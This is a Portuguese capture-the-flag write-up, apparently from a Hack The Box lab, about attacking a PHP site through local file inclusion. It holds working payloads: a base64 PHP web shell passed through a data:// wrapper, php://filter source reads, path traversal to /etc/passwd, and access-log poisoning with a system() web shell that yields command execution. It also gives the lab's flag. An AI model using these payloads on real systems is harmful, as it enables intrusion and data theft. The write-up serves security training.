 ## 1. Exploração:
Ao entrar no site a primeira coisa que fiz, foi olhar as páginas onde um usuário comum 
poderia acessar, notei que a aba da direita levava até 3 páginas com o diretório 
"index.php?page=.." que costuma ser vulnerável a alguns tipos de ataques, mas além disso, 
a página de contatos tinha algo muito interessante que eu não consegui aproveitar.
Ao digitar sua mensagem na parte do chat, ela iria diretamente para a URL, por 
exemplo ao digitar a mensagem “Bom dia amigos”, retornaríamos ao site principal com a 
seguinte URL:
```
“http://159.65.52.96:31749/index.php?message=Bom+dia+amigos#”
```
Já tendo duas oportunidades de “exploitar” o site, decidi ir para uma abordagem 
mais agressiva.

## 2. Contatos:
Vendo essa página dos contatos, tentei utilizar um php wrapper, para injetar um código 
malicioso:
```
“http://159.65.52.96:31749/index.php?message=
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&
cmd=id”
```
Infelizmente isso acabou não levando a nada, mas é algo que vale a pena investigar, 
já que pode ser uma outra vulnerabilidade não explorada.

## 3. Primeiros Fuzzes:
Voltando para as páginas “index.php?page=..”, decidi realizar 2 tipos de fuzz, o primeiro 
"index.php?page=FUZZ" utilizando LFI-Jhaddix.txt, não consegui nada de relevante, então 
no segundo "index.php?FUZZ=value" utilizando burp-parameter-names.txt, novamente não 
consegui nada, então deveria pensar em uma nova abordagem.

## 4. Cookies e Wrappers:
Já que minha primeira tentativa de Fuzz não havia dado certo, comecei a procurar novas 
possibilidades, e uma delas seria e modificar os cookies para envenenar os logs, para minha 
decepção não consegui encontrar nenhum cookie vulnerável, por fim tentei verificar se a 
opção "allow_url_include" estava ativada ou desativada, infelizmente o site me devolveu 
um "Invalid Input Detected", logo ou era uma versão mais antiga de php, ou poderia ser o 
Nginx ao invés de Apache2, então tentei usando o mesmo e outras versões antigas do php, 
até a 7.0, infelizmente também não deu em nada.

## 5. Imagens:
Um pouco sem ideias, decidi investigar as imagens do site, para ver se a pasta onde 
estavam localizadas tinha alguma vulnerabilidade, então inspecionei o site, e consegui o 
link para a imagem do grande barco do site, ela dava para uma pasta /images/ que estava 
infelizmente protegida, então não consegui acessá-la.

## 6. Voltando ao Fuzz:
Nesse momento meu arsenal intelectual estava no seu limite, e voltei para o curso do HTB, 
para ver se havia algo que eu tinha deixado passar, então foi quando me lembrei do php 
filter.
Nesse caso, precisaria utilizar outro Fuzz para detectar as entidades .php do site, o 
comando usado foi o seguinte:
```
http://159.65.52.96:31749/FUZZ.php
```
Vale ressaltar que a wordlist utilizada foi a small.txt do próprio Kali Linux.
Finalmente tive alguns resultados interessantes, as seguintes palavras bateram:
About Contact Error Index Main
Decidi então utilizar do filtro php para ver se descobria mais coisas com as 5. com o 
seguinte comando:
```
http://159.65.52.96:31749/index.php?page=index.php
```
Para minha felicidade, não deu input inválido, então seria possível ir mais a fundo 
com o próximo comando:
```
http://159.65.52.96:31749/index.php?page=php://filter/read=convert.base64-
encode/resource=index
```
A ideia desse comando é pegar o código convertido na base 64, depois usaremos um 
“echo código | base64 –d" para transformar o código em uma página, tentei em todos 
deixando, para meu azar, o index por último. É nele que eu encontrei uma linha muito 
interessante:
```
// echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
```
## 7. Entrando na sala do admin:
Com a linha de código descoberta, coloquei ela no site, no lugar do index da seguinte 
maneira:
```
http://144.126.206.23:32175/ilf_admin/index.php
```
Nota, vale ressaltar que a partir de agora estou com outro IP já que a máquina havia 
“despwanada” então tive de resetá-la.
Entrei no site e meus níveis de dopamina subiram muito, está aqui uma vulnerabilidade 
bem perigosa para o site, eu poderia ver o chat entre empregados, log de serviço e log do 
sistema.
De qualquer forma, fui analisar o conteúdo dos logs, no chat havia mensagens, antes de 
cada uma delas havia 2 nomes, um deles que terminava em números, e outro que termina 
com números, mas entre colchetes, seriam eles IDs? Ou até mesmo senhas Hard coded? 
Coloquei isso como uma possibilidade e parti para os outros logs.
Nos outros logs havia muitos links e coisas interessantes, mas decidi não as investigar por 
enquanto, então olhei novamente a estrutura do site:
```
http://144.126.206.23:32175/ilf_admin/index.php?log=chat.log
```
Isso mesmo, mais fuzz.

## 8. Fuzz novamente:
Comecei com o primeiro fuzz da seguinte forma:
```
http://144.126.206.23:32175/ilf_admin/index.php?FUZZ=value
```
Nesse caso, utilizei o burp-parameter-names.txt, para tentar encontrar novos 
parâmetros que pudessem ser atacados, ou que me dessem uma nova pista, infelizmente 
não descobri nenhum diretório novo, apenas o próprio log.
Então vamos para outro fuzz, dessa vez com o LFI-Jhaddix.txt da seguinte maneira:
```
http://144.126.206.23:32175/ilf_admin/index.php?log=FUZZ
```
Havia muitas respostas com o tamanho 2046, então utilizei do –fs 2046 para filtrar 
essas respostas com esse tamanho específico, por fim encontrei coisas mais sólidas, vários 
links com o formato similar a esse:
```
../../../../../../../etc/passwd
```
Sem pensar 2 vezes, nem mesmo olhar o resto dos resultados que bateram (estava 
muito animado) fui para o seguinte site:
```
http://144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../etc/passwd
```
E lá encontrei uma página maravilhosa, e pensei que seria o fim, mas não havia 
nenhum sinal de flag lá, mas tirei informações importantes como que o servidor não 
utilizava do Apache2, mas sim do Nginx, informação importante para buscar paramêtros 
novos, além disso havia um:
```
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
```
Talvez uma dica caso fosse necessário entrar no site com ssh, utilizei também um 
inspect na página para ver se encontrava algo notável, mas encontrei outro beco sem saída, 
voltei e fiz o Fuzz novamente, para ver se não tinha deixado passar outro diretório, e 
encontrei um:
```
../../../../../../../../../../../../etc/hosts
```
Nesse diretório havia informações de ips, e outros elementos que estão fora de meu 
conhecimento por enquanto, sem mais pistas voltei ao HTB para ver se podia ter perdido 
algo novamente.

## 9. Burp e Log Poison:
Era a última esperança, o único que não havia tentado ainda, então seguindo os passos do 
HTB, nota-se que há um arquivo access.log com diretórios diferentes, dependendo se é 
apache ou Nginx, bom, graças a página que acessamos antes, sabemos que é Nginx, então 
utilizando o seguinte diretório chegamos à página dos logs:
```
144.126.206.23:32175/ilf_admin/index.php?log=var/log/nginx/access.log
```
Não deu certo, então, tive de colocar vários “../” até que encontrasse o diretório correto:
```
144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
```
Finalmente dentro do access.log, abri o BurpSuite, liguei o intercept e dei refresh na página, 
depois disso, mandei o “proxy” para “Repeater”, e la mudei o User-Agent pra “Veneno” e 
cliquei em send.

## 10. A flag:
Ao checar no response, dava pra ver o “Veneno”, então era possível colocar um script 
malicioso ali e tentar navegar as pastas, logo, no lugar de User-Agent coloquei o seguinte:
```
<?php system($_GET['cmd']); ?>
```
E no get, coloquei um comando, &cmd=id (.../access.log&cmd=id), para minha felicidade 
consegui uma resposta boa:
```
uid=65534(nobody) gid=65534(nobody)
```
Logo era só uma questão de navegar para encontrar a flag, no exercício fala que ela está na 
pasta root, então fazemos um ls / no lugar do id, dessa maneira nos é revelado o que está 
na pasta root, um txt muito interessante: flag_dacc60f2348d.txt.
Por fim, fazemos agora um cat /flag_dacc60f2348d.txt e conseguimos seu conteúdo, que é 
a flag: a9a892dbc9faf9a014f58e007721835e
11. Conclusões:
O sistema invadido tem várias vulnerabilidades, mas com meu conhecimento consegui 
explorar poucas delas, vale notar a questão do chat dos Contatos, além dos vários números 
e nomes dos usuários que aparecem no Chat Log, uma sugestão clara que poderá remediar 
o problema, seria a necessidade de colocar uma senha para entrar em qualquer link que 
tenha ilf_admin/
